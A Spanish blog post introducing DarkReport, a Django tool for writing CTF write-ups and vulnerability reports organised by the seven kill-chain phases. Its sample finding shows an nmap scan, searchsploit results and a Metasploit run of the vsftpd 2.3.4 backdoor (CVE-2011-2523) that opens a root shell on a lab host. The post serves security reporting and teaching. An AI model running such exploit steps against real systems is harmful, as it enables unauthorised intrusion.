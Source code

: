 ```yaml
---
title: DarkReport
date: 2025-9-11 11:00:00 +0200
categories: [ciberseguridad, software]
tags: [darkreport, writeup, django]     
image:
    path: https://github.com/pmartinezrhub/DarkReport/raw/main/DarkReport/static/DarkReport/dark-report-logo.png
    alt:  
---
```

## DarkReport
Cuando las herramientas que existen no te satisfacen seguramente sea hora de que hagas la tuya propia, la que se adapta a tus necesidades, gustos 
o que tenga mejor usabilidad, rapidez, etc. Como estaba probando tantas herrientas de reporting que me ayudasen a escribir writes ups, tomar notas 
y apuntes de los retos se me ocurrió la idea de crear DarkReport. Lo he diseñado para escribir un write up de un CTF o también para crear un informe de vulnerabilidades. 

## Está basado en las 7 etapas de un ciberataque (killchain)

Como no siempre es necesario las 7 fases ni tampoco es necesario para hacer un reporte, la aplicación esta diseñada para simplificar los reportes sin perder la opción de explicar las 7 fases, cuando se crea un hallazgo algunos campos son obligatorios de otra forma la vulnerabilidad no se explica y si no se explica, no se sabría solucionar. 

- Reconocimiento, es una fase muy importante, pero no siempre necesaria, a veces nos enteramos de que la versión de algún software que estamos utilizando presenta alguna vulnerabilidad. 

- Preparación:  Que herramientas se utilizan para infectar el sistema, troyanizarlo etc, no siempre es requerido dado que por ejemplo un RCE ya nos permite ejecutar comandos en un sistema de forma remota

- Distribución. Me parece muy imporante que los reportes incluya como se entrega el payload aunque en algunos casos sea una obviedad

- Explotación. La explicación técnica de porque ocurre este error/bug o falla de seguridad.

- Instalación: No siempre necesario, pero puede describirse como que programa, malware o rat, queda instalado para ser persistente en el sistema. 

- Comando y control. Como se crea el canal de comunicación con el atacante. Puertos usados, protocolos, etc.

- Acciones en el objetivo: Que acciones puede realizar el adversario una vez tiene comando y control.

![kill chain](https://upload.wikimedia.org/wikipedia/commons/1/1d/Intrusion_Kill_Chain_-_v2.png)

## Login
Por supuesto he implementado una pantalla de login para que no cualquiera pueda entrar a la aplicación.
En el Readme del proyecto podrás encontrar las instrucciones de como cambiar la password por defecto. 
![login](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/login.png)

## Panel principal
Al entrar en la aplicación te encontrarás una vista de general con una métricas y graficos. En el panel izquierdo podemos cerrar sesión y/o crear nuevos proyectos.
![dashboard](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/dashboard.png)

### Idioma
Actualmente podemos seleccionar inglés o español, pero está pensado para traducirse a todos los idiomas posibles medidante el uso de locales. En el panel arriba a la derecha

### Resumen
Contine un resumen de la cantidad de proyectos, reportes y hallazgos. 

### Estadísticas 
Proporciona un grafico de las vulnerabilidades actuales y otro de los CVEs encontrados

## Crear proyectos
Simplemente creas un proyecto que albergará los reportes, podemos ponerle el nombre de la empresa, cliente o del sitio, etc que vamos a auditar. 
La vista mostrará las vulnerabilidades en cada reporte ordenadas por la prioridad. 

![vista proyecto](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/project_view.png)

## Crear reportes
Cada reporte se crea indicando un objetivo, que puede ser un host, una api, o simplemente inventar un nombre, estos reportes contendrán los hallazgos

## Crear hallazgos
Cuando creamos un hallazgo es donde realmente vamos a idenficar la vulnerabilidad y tratar de explicarla en las 7 fases de pausible ataque. 
Se puede buscar un CVE, la aplicación buscará automáticamente el código CVE-XXX-XXX en la base de datos NITS para cargar el Ajax que nos indica que estamos introduciendo un CVE correcto. 
![find](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/find_detail_view.png)

Al pulsar el botón copiar vamos a obtener un reporte de solo el hallazgo

``` shell
⚠1:  ⚠️ Vulnerabilidad - Remote Code Execution (RCE)
CVE: CVE-2011-2523
🔭 Reconocimiento: nmap -p- 10.88.0.2 -sV -vv
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
MAC Address: 72:67:68:3C:12:BD (Unknown)
Service Info: OS: Unix
💣 Preparación: └─$ searchsploit vsftpd 2.3.4
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                 | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                    | unix/remote/17491.rb
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Result
🚚 Distribución: msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 10.88.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.88.0.2:21 - USER: 331 Please specify the password.
[+] 10.88.0.2:21 - Backdoor service has been spawned, handling...
[+] 10.88.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.88.0.1:42055 -> 10.88.0.2:6200) at 2025-09-08 01:06:11 +0200
whoami
root
🪲 Explotación: En julio de 2011, se descubrió que la versión 2.3.4 de vsftpd, descargable desde el sitio principal, había sido comprometida. Los usuarios que iniciaban sesión en un servidor vsftpd-2.3.4 comprometido podían usar una cara sonriente :) como nombre de usuario y obtener acceso a una consola de comandos en el puerto 6200. Esto no se debía a una vulnerabilidad de seguridad en vsftpd, sino a que alguien había subido una versión diferente de vsftpd que contenía una puerta trasera. Desde entonces, el sitio se migró a Google App Engine.
```
Ahora solo tenemos que pergarlo a nuestro write up o al informe final y añadir lo que necesitemos como marcas de markdown etc. 
Te dejo el ejemplo de como quedó después de retocarlo un mínimo aquí: [dockerlabs-firsthacking](../dockerlabs-firsthacking)

### Campos obligatorios y opcionales
Campos obligatorios:
- Tipo de vulnerabilidad - Por defecto es Information disclouser pero hay una lista de todas la vulnerabilidades conocidas.. 
- Distribución  
- Explotación
- Prioridad - Por defecto baja. Los hallazgos dentro de cada reporte se ordenarán por prioridad.

Campos opcionales:
- CVE - Como ya indique se carga con Ajax contra la API del Nist.
- Preparación
- Instalación
- Comando y control
- Acciones en los objetivos
- Fichero recon . Voy a desarrollarlo más pero de momento he dejado la posibilidad de adjuntar un fichero.

![](https://upload.wikimedia.org/wikipedia/commons/thumb/c/c2/The_Unified_Kill_Chain.png/1920px-The_Unified_Kill_Chain.png)

Por supuesto la herramienta permite modificar los hallazgos así como borrar proyectos, reportes, exportar datos, etc. 

## Desarrollo
DarkReport esta desarrollado con el framework Django (Python)

 - 1 Como cualquier software, evoluciona, irá mutandom mejorando y acepta contribuciones ideas y desarrollos, me gustaría tener opiniones para mejorar la herramienta.
Es la primera versión, pero iré mejorándola poco a poco se que tiene mucho por mejorar. 

 - 2 Su diseño es iconográfico, sencillo y de momento un diseño oscuro de ahí un poco su nombre. 

Puedes descargarlo y obtener más instrucciones desde de este repositorio de Github incluye Dockerfile para desplegar rapidamente el proyecto.
[https://github.com/pmartinezrhub/DarkReport](https://github.com/pmartinezrhub/DarkReport)
 